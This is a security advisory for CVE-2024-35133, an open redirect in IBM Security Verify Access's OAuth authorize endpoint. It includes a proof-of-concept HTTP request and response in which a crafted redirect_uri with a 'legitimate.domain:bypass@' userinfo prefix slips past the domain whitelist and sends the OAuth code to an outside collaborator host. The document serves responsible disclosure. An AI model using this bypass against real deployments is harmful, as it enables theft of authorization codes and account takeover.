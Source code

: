 # IBM Security Verify Access - Open Redirect during OAuth Flow (CVE-2024-35133)

## Table of Contents
1. [Overview](#overview)
2. [Detailed Description](#detailed-description)
3. [Proof of Concept](#proof-of-concept)
4. [Solution](#solution)
5. [Disclosure Timeline](#disclosure-timeline)
6. [References](#references)
7. [Credits](#credits)
8. [Legal Notices](#legal-notices)

## Overview

**Revision**: 1.0  
**Impact**:  
By persuading a victim to visit a specially crafted website, a remote attacker could exploit this vulnerability to spoof the URL displayed and redirect the user to a malicious website. This could allow the attacker to obtain highly sensitive information or conduct further attacks against the victim.

**Severity**:  
- NIST: High  
- IBM: Medium

**CVSS Score**:  
- NIST: 8.2 (CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:C/C:H/I:L/A:N)  
- IBM: 6.8 (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:C/C:N/I:H/A:N)

**CVE-ID**: CVE-2024-35133

**Vendor**: IBM

**Affected Products**: 
- IBM Security Verify Access  
- IBM Security Verify Access Docker

**Affected Versions**: 10.0.0 - 10.0.8

### Product Description

IBM Security Verify Access is a complete authorization and network security policy management solution. It provides end-to-end protection of resources over geographically dispersed intranets and extranets.

Some key features include:
- **Authentication**: Wide range of built-in authenticators and support for external authenticators.
- **Authorization**: Secure permit and deny decisions for protected resource requests.
- **Data Security and Centralized Resource Management**: Manages secure access to internal network-based resources using public Internet connectivity through a corporate firewall system.

---

## Detailed Description

During a penetration test of the OAuth flow for a client, an Open Redirect vulnerability was discovered, allowing the leakage of the OAuth "code" variable.

By bypassing the parser's logic responsible for verifying the "redirect_uri" parameter during an OAuth flow (leveraging RFC 3986), the attacker could manipulate the domain whitelist filter in IBM Security Verify Access. This resulted in an open redirect to any arbitrary domain controlled by the attacker. The victim could be redirected to a malicious site while the domain appears trusted.

This could lead to the exposure of sensitive information like the OAuth "code" token or further attacks against the victim.

---

## Proof of Concept

### Request
```http
GET /oauth/oauth20/authorize?response_type=code&client_id=[REDACTED]&state=001710863806728MPUw0xFSj&REDACTED_uri=https://legitimate.domain:bypass@0lmd9sa7p0cez16vdcldhcgygpmga6yv.oastify.com/[REDACTED]/openid/REDACTED/[REDACTED]&scope=openid+ HTTP/1.1
Host: [REDACTED]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
### Response
```http
HTTP/1.1 302 Found 
content-language: en-US 
date: Tue, 19 Mar 2024 16:04:35 GMT 
location: https://legitimate.domain:bypass@0lmd9sa7p0cez16vdcldhcgygpmga6yv.oastify.com/[REDACTED]/openid/REDACTED/[REDACTED]?state=001710863806728MPUw0xFSj&code=7wkH581y0uyS0nm4ff65zCqHn0WC46w7v&iss=[REDACTED] 
p3p: CP="NON CUR OTPi OUR NOR UNI" 
x-frame-options: DENY 
x-content-type-options: nosniff 
cache-control: no-store 
x-xss-protection: 1; mode=block 
x-permitted-cross-domain-policies: none 
cross-origin-resource-policy: same-site 
content-security-policy: frame-ancestors 'none' 
referrer-policy: no-referrer-when-downgrade 
strict-transport-security: max-age=31536000; includeSubDomains 
pragma: no-cache 
Content-Length: 0.
```

## Solution

Refer to IBM Security Bulletin 7166712 for patch, upgrade, or suggested workaround information.  
See [References](#references) for more details.

---

## Disclosure Timeline

- **19/03/2024**: Vulnerability discovered by the Security Researcher (Giulio Garzia)
- **21/03/2024**: Vulnerability shared with the client relying on IBM Security Verify Access
- **02/04/2024**: Vulnerability reported to IBM
- **14/05/2024**: Vulnerability confirmed by IBM
- **18/07/2024**: Pre-release patch provided by IBM to the customer
- **27/08/2024**: Security Bulletin and vulnerability shared by IBM

---

## References

1. [IBM Security Bulletin CVE-2024-35133](https://www.ibm.com/support/pages/security-bulletin-security-vulnerability-was-fixed-ibm-security-verify-access-cve-2024-35133)
2. [IBM X-Force Vulnerability Database](https://exchange.xforce.ibmcloud.com/vulnerabilities/291026)
3. [NIST CVE-2024-35133](https://nvd.nist.gov/vuln/detail/CVE-2024-35133)
4. [CWE-178: Improper Handling of URL](https://cwe.mitre.org/data/definitions/178.html)

---

## Credits

This vulnerability was discovered and reported by:

- **Giulio Garzia**  
  [LinkedIn](https://www.linkedin.com/in/giuliogarzia/)  
  [GitHub](https://github.com/Ozozuz)

---

## Legal Notices

Copyright (c) 2024 Giulio Garzia "Ozozuz"

Permission is granted for electronic redistribution of this alert. It may not be edited without explicit written consent. For permission to reprint this alert in other media, contact the author.

_Disclaimer_: The information in this advisory is accurate at the time of publishing based on available data. No warranties are provided. Neither the author nor publisher accepts liability for direct, indirect, or consequential damage arising from use of this information.